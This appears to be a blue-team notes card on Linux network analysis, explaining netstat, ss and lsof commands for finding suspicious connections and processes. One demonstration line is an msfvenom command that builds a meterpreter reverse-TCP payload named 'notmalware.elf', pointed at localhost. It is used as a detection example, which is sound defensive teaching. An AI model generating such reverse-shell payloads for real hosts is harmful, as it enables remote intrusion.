 ```yaml
---
{"dg-publish":true,"permalink":"/cards/blue-team/endpoint-security/linux-network-analysis/"}
---
```


[[atlas/blue-team\|blue-team]]

- Common choice for servers.

Demonstrations:
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f elf -o notmalware.elf
```
### Investigations
---

```bash
netstat -tnp
```

- `-t` tcp only
- `-n` don't resolve
- `-p` provides PID and binary name.

![Linux Network Analysis.png](/img/user/cards/blue-team/endpoint-security/images/Linux%20Network%20Analysis.png)
**More modern than netstat**

```bash
ss -tnp
```

Show src/dst address:

```bash
sudo ss src 127.0.0.1
```

- `dport` and `sport` for ports

**Show information about files opened by processes** great for network connection that are associated with files:

```bash
sudo lsof -i -P -n
```

- `-i` list out all established, listening network connection including opened by files

![Linux Network Analysis-1.png](/img/user/cards/blue-team/endpoint-security/images/Linux%20Network%20Analysis-1.png)
**See more about the interesting process using it's PID**

```bash
sudo lsof -p 3610
```

![Linux Network Analysis-2.png](/img/user/cards/blue-team/endpoint-security/images/Linux%20Network%20Analysis-2.png)
